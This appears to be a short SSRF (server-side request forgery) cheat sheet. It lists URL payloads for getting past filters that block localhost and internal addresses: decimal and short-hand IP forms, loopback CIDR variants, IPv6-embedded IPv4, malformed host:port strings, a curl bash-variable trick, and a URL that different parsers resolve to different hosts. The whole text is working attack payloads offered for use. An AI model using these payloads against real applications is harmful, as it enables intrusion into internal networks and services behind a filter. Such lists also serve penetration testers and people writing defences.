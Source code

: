 ### Bypass using a decimal IP location

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

### Bypass localhost with CIDR

```
It's a /8

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### [Bypass using IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t\_IPv6IPv4AddressEmbedding.htm)

```
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### Bypass using malformed urls

```
localhost:+11211aaa
localhost:00011211aaaa
```

### Bypass using rare address

```
You can short-hand IP addresses by dropping the zeros
http://0/
http://127.1
http://127.0.1
```

### Bypass using bash variables

```
cURL only

curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```
